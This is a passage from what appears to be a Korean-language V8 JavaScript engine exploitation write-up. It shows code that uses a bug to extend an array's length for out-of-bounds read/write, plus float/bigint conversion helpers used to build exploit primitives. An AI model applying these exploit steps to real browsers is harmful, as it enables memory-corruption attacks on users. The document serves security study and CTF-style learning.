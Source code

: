 ```bash
```

## Exploitation

### Generate OOB array

```js
// flags: --allow-natives-syntax --shell

let oob_arr = [1.1];

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${oob_arr.length}`);

% DebugPrint(oob_arr);
```

![image](https://github.com/user-attachments/assets/0c026f75-416f-457d-9eb5-5c21d6fba367)

![image](https://github.com/user-attachments/assets/6784d512-0b29-4fa8-9336-306b9379c0fc)

![image](https://github.com/user-attachments/assets/f3b332a7-9f3b-4bfd-97f1-d2eb2bb71328)

`oob_arr`은 한 개의 double을 저장할 수 있는 공간만 가지고 있지만, 버그를 발생시켜 length를 증가시켰기 때문에 자유로운 OOB read/write가 가능하다.

![image](https://github.com/user-attachments/assets/9263e13c-06ad-4c58-b3eb-dcfdffbd940e)

### Helper functions

```js
let fi_buf = new ArrayBuffer(8); // shared buffer for float and bigint
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

// convert (big)int to hex string
function hex(i) {
    return `0x${i.toString(16)}`;
}
```
